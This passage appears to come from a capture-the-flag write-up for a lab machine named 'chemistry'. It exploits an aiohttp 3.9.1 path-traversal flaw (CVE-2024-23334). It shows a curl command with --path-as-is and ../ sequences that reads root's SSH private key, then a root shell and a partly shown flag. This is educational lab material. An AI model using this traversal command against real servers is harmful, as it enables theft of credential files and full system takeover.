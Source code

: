 So, I did a bit of digging and found out that `aiohttp/3.9.1` was vulnerable to a [CVE-2024-23334](https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0) Path Traversal. Time to go for root! I used curl to grab the root's `id_rsa` file

```bash
$ curl -s --path-as-is http://localhost:8080/assets/../../../../root/.ssh/id_rsa > id_rsa
$ chmod 600 id_rsa
```

## Shell as Root

Finally, I used the key to log in as root and grabbed the root flag!

```
root@chemistry:~# whoami
root
root@chemistry:~# cat root.txt
77e67290e4...
```

